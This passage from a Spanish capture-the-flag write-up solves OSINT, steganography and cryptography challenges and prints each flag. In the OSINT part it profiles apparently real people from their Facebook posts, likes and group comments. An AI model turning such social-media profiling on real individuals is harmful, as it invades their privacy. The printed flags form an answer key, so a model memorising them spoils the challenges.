En el propio post del enlace de Facebook, tenemos dos personas más, una que le da like
Y otra que comenta
No todo el mundo tiene armas en su foto de perfil, y va vestido como un militar, merece un poco más de atención.
Revisando a fondo su perfil vemos un troncho de texto con posibles intereses del sujeto.

Traduciendo todos sus intereses, llama la atención el siguiente fragmento:

Revisando el enlace, accedemos a un grupo público de Facebook un tanto turbio.

En él podemos ver un comentario que nos llama la atención por ser provincia del país objetivo.

Traduciendo el comentario

En Google Maps podemos ver sus ciudades más importantes.

Probamos con Nasiriya y acertamos :D
Flag: CYBEX{nasiriya}
Esteganografía⌗
¿Dónde están mis llaves?⌗
Utilizando la herramienta stegcracker sobre la imagen que nos dan, obtenemos el siguiente mensaje:
cat Tesla.jpg.out
Parece que has perdido las llaves de tu nuevo coche... Ya te vale.
Menos mal que al comprarlo podías poner una contraseña para que se abriera.
Ahí va:
CYBEX{Nm4p_y_p4_d3ntr0}
La próxima vez ves con mas cuidado.
Ya sabéis, nmap y para dentro gente.
Beep Boop⌗
El nombre y la descripción nos dan una pista sobre el programa de esteganografía que tenemos que utilizar, DeepSound.
Revisando la lista de contraseñas, se ve que la mayoría son simples excepto una. En vez de adivinar cual es la correcta, podríamos haber utilizado la herramienta deep2john y posteriormente crackearlo utilizando john con el diccionario proporcionado.
De las 7 imagenes que nos extrae del audio DeepSound, la numero 7 tiene un base64 escondido czNjcjN0cDRzc3cwckQhKg== –> s3cr3tp4ssw0rD!*
Haciendo binwalk extraemos un zip, con la pw extraemos la flag.
poltatil@kali:~/CybexCTF/Stego$ binwalk --dd='.*' image07.PNG
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 PNG image, 540 x 277, 8-bit colormap, non-interlaced
1029 0x405 Zlib compressed data, best compression
94181 0x16FE5 PNG image, 540 x 277, 8-bit colormap, non-interlaced
95055 0x1734F Zlib compressed data, best compression
187948 0x2DE2C Zip archive data, encrypted at least v1.0 to extract, compressed size: 33, uncompressed size: 21, name: flag.txt
188141 0x2DEED End of Zip archive, footer length: 22
poltatil@kali:~/CybexCTF/Stego$ ls
BeepBoop.zip hellofriend.wav image02.jpg image04.PNG image07.PNG Tesla.jpg weird.txt
Documents.zip image01.jpg image03.PNG image06.jpg _image07.PNG.extracted Tesla.jpg.out
poltatil@kali:~/CybexCTF/Stego$ cd _image07.PNG.extracted/
poltatil@kali:~/CybexCTF/Stego/_image07.PNG.extracted$ ls
0 16FE5 1734F 1734F-0 2DE2C 2DEED 405 405-0
poltatil@kali:~/CybexCTF/Stego/_image07.PNG.extracted$ files ./*
bash: files: command not found
poltatil@kali:~/CybexCTF/Stego/_image07.PNG.extracted$ file ./*
./0: PNG image data, 540 x 277, 8-bit colormap, non-interlaced
./16FE5: PNG image data, 540 x 277, 8-bit colormap, non-interlaced
./1734F: empty
./1734F-0: zlib compressed data
./2DE2C: Zip archive data, at least v1.0 to extract
./2DEED: Zip archive data (empty)
./405: empty
./405-0: zlib compressed data
poltatil@kali:~/CybexCTF/Stego/_image07.PNG.extracted$ unzip ./2DE2C
Archive: ./2DE2C
[./2DE2C] flag.txt password:
extracting: flag.txt
poltatil@kali:~/CybexCTF/Stego/_image07.PNG.extracted$ cat flag.txt
CYBEX{mR_R0b0T_FtW!}
Flag: CYBEX{mR_R0b0T_FtW!}
Criptografía⌗
Alfin esta en la base⌗
El nombre del desafío nos dice todo lo que vamos a necesitar para resolverlo.
Texto del desafío:
ubddprak: X1iHAMw7YlswY2MjV29jkWCwYTQ9
Affine cypher: https://www.dcode.fr/affine-cipher
Control + F de password para encontrar el válido, convertimos de base64 a ascii.
Flag: CYBEX{flagencontrada}
Roma⌗
Cifrado Cesar, probar diferentes rotaciones hasta encontrar la correcta.
Flag: CYBEX{al_cesar_lo_que_es_del_cesar}
Potencial / Intensidad⌗
Potencial / Intensidad = Resistencia :D
En este reto tenemos un txt formado por letras en mayúsculas y minúsculas (dos estados diferentes) en columnas de 8.
aPoRelbo eOEeEcoM dINComoD nVIVaIgN TIUsNotE ueDesmoñ cONIamoc eSEnunnE eROviVAN oSPachaC osDimela aNDaNGui aELdineR toPeroqu hAPacHaD sONLasDO eYMEdIap sADasquE aNCInCom nUTOsDeE tREvistA ueGrANde arEjodan oELSOfAy uEPeRROE iGNAtiUs aVAJeaNd lODaVIDE alMiRANt alriGhTg isonYlAn eVejunTO oNrICarD vIvanlOs aChacHoS uRcIAnoe iSTEElDI eRItOLos acHAcHos uEpACHAC nLOSpaCh chOChaPO eLBOteEE ooEEeeeA oRELboTE eEOEeEee coMOdiIN oMOdINNc mODiiiIN omODinnV vaNLoSpa hAcHOCHV vAIgNAtI slOSpach cHOsBRon anIXlOsp cHACHOcH
Con la pista que que las mayusculas son finas, nos hace sospechar de que podrían estar codificando información binaria. Utilizando la función de búsqueda y reemplazo de cualquier editor de texto, con las siguientes dos expresiones regulares:
"[a-zñ]" por 0
"[A-ZÑ]" por 1
Obtenemos:
01010000 01101001 01110001 01110101 11101001 00100001 01110000 01100001 01100111 01100001 00100000 01101100 01100001 00100000 01100101 01110011 01110100 01100001 01110100 01110101 01100001 00101100 00100000 01111010 01101111 01110010 01110010 01101111 00101110 00001010 00001010 01000011 01011001 01000010 01000101 01011000 01111011 01101100 00110100 01011111 01110010 00110011 01110011 00110001 01110011 01110100 00110011 01101110 01100011 00110001 00110100 01011111 01101101 00110000 01101100 00110100 01111101
Pasando a texto el el binario obtenemos la flag: CYBEX{l4_r3s1st3nc14_m0l4}
No podías tener más razón Jorge.
¿Una copa?⌗
Resuelto tras finalizar el CTF, con la pista de Oreos.
Se trata de un texto encriptado con el algoritmo Fermat (pistas: el archivo se llama MyWine, habla de bebidas en la descripción…).
24u2gKKqq5qyngxNt1hYwPv70haH1WndybjAO982sfI=
gAAAAABeSa9-bUDh_wGABM9fJRORU_FRPBIHpZcskNsieSRPiC37RXZBKJHtfQRKh7FgGwTaIrtNaSoHmWTO7s7Bc03o83NLEEfMrjlecjgrmZLFsSbka5t3CaNm--qrKiL0VlakyW1mAu9sCXx571BX63rOdNcpQyjJDAatTBmpPStFaUR3Lpv1RCtYxA-X6m_8uCfQ7v180xVCSoVtAeS40Ovs8sUp9uIZ0ReQgNu82i9kKOGHgZJAoS2yaDCUDfsWLZ6l-NOX
Como tenemos la clave, podemos descifrarlo directamente utilizando esta herramienta.
Decoded: NB2HI4DTHIXS6ZDSNF3GKLTHN5XWO3DFFZRW63JPMZUWYZJPMQXTCY2OKR4GO5TXO44DMM2QNNPUOY2SMF4WM2KGGJQWC53LKZVVM3KLF53GSZLXH52XG4B5ONUGC4TJNZTQU===
Date created: Sun Feb 16 21:09:18 2020
Current time: Wed Apr 8 00:31:10 2020
======Analysis====
Decoded data: 80000000005e49af7e6d40e1ff018004cf5f25139153f1513c1207a5972c90db2279244f882dfb4576412891ed7d044a87b1601b04da22bb4d692a079964ceeecec1734de8f3734b1047ccae395e72382b9992c5b126e46b9b7709a366fbeaab2a22f45656a4c96d6602ef6c097c79ef5057eb7ace74d7294328c90c06ad4c19a93d2b456944772e9bf5442b58c40f97ea6ffcb827d0eefd7cd315424a856d01e4b8d0ebecf2c529f6e219d1179080dbbcda2f6428e187819240a12db26830940dfb162d9ea5f8d397
Version: 80
Date created: 000000005e49af7e
IV: 6d40e1ff018004cf5f25139153f1513c
Cipher: 1207a5972c90db2279244f882dfb4576412891ed7d044a87b1601b04da22bb4d692a079964ceeecec1734de8f3734b1047ccae395e72382b9992c5b126e46b9b7709a366fbeaab2a22f45656a4c96d6602ef6c097c79ef5057eb7ace74d7294328c90c06ad4c19a93d2b456944772e9bf5442b58c40f97ea6ffcb827d0eefd7cd315424a856d01e4b8d0ebecf2c529f6
HMAC: e219d1179080dbbcda2f6428e187819240a12db26830940dfb162d9ea5f8d397
======Converted====
IV: 6d40e1ff018004cf5f25139153f1513c
Time stamp: 1581887358
Date created: Sun Feb 16 21:09:18 2020
Pasando el base32 a texto obtenemos una imagen alojada en Google Drive
Utilizando steghide sin especificar contraseña obtenemos la flag:
poltatil@kali:~/CybexCTF/Crypto$ steghide info SomeFermet.jpg
"SomeFermet.jpg":
format: jpeg
capacity: 4.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
embedded file "ImNotAFlag.txt":
size: 30.0 Byte
encrypted: rijndael-128, cbc
compressed: yes
poltatil@kali:~/CybexCTF/Crypto$ steghide extract -sf SomeFermet.jpg
Enter passphrase:
wrote extracted data to "ImNotAFlag.txt".
poltatil@kali:~/CybexCTF/Crypto$ cat ImNotAFlag.txt
CIBEX{fernet_is_brainfucking}
poltatil@kali:~/CybexCTF/Crypto$
Flag: CIBEX{fernet_is_brainfucking}
QorR⌗
Archivo con extensión bmp, pero que no es posible abrirlo con ningún visualizador, y ni file ni binwalk saben identificarlo.
Revisando las cabeceras, es posible que hayan sido modificadas. Teniendo en cuenta que según el estándar las cabeceras correctas deberían empezar por 0x42 0x4D 0x42 0x6d 0x00 0x00, haciendo xor de dichos bytes con el comienzo del archivo obtenemos la clave de cifrado XOR, que además aparece repetida por todo el archivo.
(Si encriptas 00000 –> Key XOR 00000 = Key)
Haciendo XOR con la clave recuperada obtenemos el siguiente QR:
Haciendo QR Decode en Cyberchef o zxing obtenemos la flag: CYBEX{QRONAO}
Conclusiones⌗
Muchas gracias a los organizadores por hacer un CTF tan variado e interesante, espero poder volver a participar en próximas ediciones.